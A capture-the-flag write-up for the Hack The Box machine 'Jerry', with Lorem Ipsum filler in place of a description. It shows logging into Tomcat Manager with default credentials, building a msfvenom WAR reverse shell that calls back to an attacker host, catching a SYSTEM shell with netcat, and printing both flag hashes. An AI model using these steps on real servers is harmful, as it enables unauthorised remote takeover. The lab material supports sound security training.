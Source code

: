 ```yaml
---
title: Jerry - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-19
image: images/jerry_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/jerry_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/jerry]# nmap -Pn -n -sCV 10.10.10.95 --open                                                                        (master✱)
  PORT     STATE SERVICE VERSION
  8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
  |_http-favicon: Apache Tomcat
  |_http-open-proxy: Proxy might be redirecting requests
  |_http-server-header: Apache-Coyote/1.1
  |_http-title: Apache Tomcat/7.0.88


2. Visit the webpage and we see the default Apache Tomcat side. We have three interesting options, 'Server Status', 'Manager App'
and 'Host Manager'.

Press 'Manager App' and try to login with default credentials tomcat:s3cret.

Once logged in, we can instantly see the option to upload WAR files. Create a WAR reverse shell with msfvenom and upload.

[root:/git/htb/jerry]# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=4488 -f war > rev.war                       (master✱)
  Payload size: 1088 bytes
  Final size of war file: 1088 bytes

The file is uploaded without any issues, we can trigger the shell by visiting http://10.10.10.95:8080/rev/

[root:/git/htb/jerry]# rlwrap nc -lvnp 4488                                                                                       (master✱)
listening on [any] 4488 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88> whoami
  nt authority\system

C:\apache-tomcat-7.0.88>


3. Grab user.txt and root.txt

C:\Users\Administrator\Desktop\flags> type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
